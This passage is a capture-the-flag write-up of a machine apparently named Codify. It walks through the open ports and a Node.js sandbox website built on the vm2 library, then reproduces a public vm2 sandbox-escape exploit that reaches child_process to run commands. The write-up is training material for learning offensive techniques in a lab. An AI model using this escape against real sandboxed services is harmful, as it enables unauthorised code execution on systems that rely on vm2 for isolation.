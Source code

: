 We can see that the usual ports 22 and 80 are open. However, port 3000 is also open running node.js, which could be useful in the future since node.js has some known vulnerabilities in older versions.

Addming codify.htb to our /etc/hosts, we can access the website and take a look.

The website is made of 3 pages:

	- About us - This page explained that Codify is a Node.js sandbox environment using the vm2 library to execute untrusted code safely.
	- Editor - A simple page with a text area to enter Node.js code and execute it.
	- Limitations - Notes restrictions like blocked access to certain modules like child_process and fs


In the 'editor' page, we can write and execute node.js code.

In the 'about us' page, we can see the references to vm2 sandboxing for code execution:

![image](1.png)

## Initial access

However, vm2 is not completely bulletproof. I found this exploit on GitHub:

https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac

The code is the following:

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```
